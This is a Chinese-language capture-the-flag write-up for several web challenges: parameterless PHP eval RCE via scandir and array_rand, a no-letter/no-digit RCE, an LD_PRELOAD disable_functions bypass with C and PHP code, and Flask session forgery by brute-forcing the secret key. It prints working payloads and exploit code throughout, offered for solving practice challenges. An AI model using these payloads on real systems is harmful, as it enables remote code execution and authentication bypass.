 # Puppy_rce

审计一下代码，典型的无参rce

```php
<?php
highlight_file(__FILE__);
header('Content-Type: text/html; charset=utf-8');
error_reporting(0);
include(flag.php);
//当前目录下有好康的😋
if (isset($_GET['var']) && $_GET['var']) {
    $var = $_GET['var'];
   
    if (!preg_match("/env|var|session|header/i", $var,$match)) {
        if (';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $var)){
        eval($_GET['var']);
        }
        else die("WAF!!");
    } else{
        die("PLZ DONT HCAK ME😅");
    }
} 
```

由于过滤了`env`,`var`,`session`,`header`，因此可以用scandir来查看当前目录下的文件

```
?var=print_r(scandir(current(localeconv())));
```

![image-20231112183051787](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231112183051787.png)

发现flag实际上在fl@g.php里面

但是你会发现你用`array_reverse`把数组翻转后读取并不可行，因为fl@g.php是在中间的

这时候就得用到这下面俩函数了

```
array_flip():交换数组中的键和值
array_rand():从数组中随机取出一个或多个单元
```

第一个函数就相当于把数组的下标和数组的内容做交换

第二个函数就相当于随机选一个数组，把数组的下标的内容给显示出来（应该是内容中的内容，因为现在的内容是个文件....）

于是乎就可以这样构造

```
?var=show_source(array_rand(array_flip(scandir(current(localeconv())))));
```

刷新几次就好

![image-20231112183915233](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231112183915233.png)

# ezrce

无数字无大部分字母无{}rce

开始写的脚本是这样的

```php
import requests

url = "https://zcupqouc3075ow6ar71c0ng70.node.game.sycsec.com/?data=?><?=`. /???/????????[@-[]`;?>"
files = {'files':"systyem('print(1+1);')"}
res = requests.post(url=url,files=files).text
with open('b.txt','w') as f:
    f.write(res)
    print(res)
```

文件上传绕过waf，合理对吧。但似乎不行捏，什么返回都没有

先试试19年的rce me，看看怎么用LD_ORELOAD

## rce me

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

?>
```

无字母数字rce，用取反异或什么的都行，这里就跟着wp走一遍，用取反

![image-20231121114342912](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231121114342912.png)

![image-20231121114354170](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231121114354170.png)

成功执行，用蚁剑连一下

由于里面是空的，所以可以考虑用LD_PRELOAD绕过

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
	system("/readflag >> /var/tmp/test.php");
}   
int  geteuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

```php
<?php
putenv("LD_PRELOAD=/var/tmp/getflag.so");
mail("","","","");
error_log("",1,"","");
?>
```



# you konw flask?

一眼伪造flask

先算变注册一个账号看看，然后把得到的session解密一下

![image-20231120184059236](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184059236.png)

猜测是要让is_admin变为True才能拿到flag

内容知道了，但是SECRET_KEY在哪？

dirsearch扫一下，发现有robots.txt

![image-20231120184208154](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184208154.png)

进去后跳转给的网页看看，源代码提示如图

![image-20231120184251970](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184251970.png)

中间是1-100的随机字符base64加密后的字符串，写个脚本得到密码本

```python
import base64
import random

for i in range(1,300):
    str2 = 'wanbao' + base64.b64encode(str(random.randint(1,100)).encode('utf-8')).decode("utf-8") + 'wanbao'
    with open('b.txt','a') as file:
        file.writelines(str2+'\n')
```

for循环范围自定，只要得出key就行

![image-20231120184411694](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184411694.png)

得到key为wanbaoNjE=wanbao

那再去加密一下

![image-20231120184653844](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184653844.png)

成功当成教练

![image-20231120184753410](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184753410.png)

![image-20231120184812074](C:\Users\ASUS\AppData\Roaming\Typora\typora-user-images\image-20231120184812074.png)